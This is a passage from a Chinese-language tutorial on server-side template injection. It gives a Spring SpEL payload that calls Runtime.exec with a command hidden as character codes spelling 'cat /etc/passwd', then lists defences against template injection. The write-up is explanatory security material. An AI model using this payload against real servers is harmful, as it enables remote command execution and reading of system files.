 **payload：**

```python
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())} 
```

**注意:**

这里面的 T() 是 EL 的语法规定（比如 Spring 框架的 EL 就是 SPEL)

## **0X07 防御方法**

(1)和其他的注入防御一样，绝对不要让用户对传入模板的内容或者模板本身进行控制
(2)减少或者放弃直接使用格式化字符串结合字符串拼接的模板渲染方式，使用正规的模板渲染方法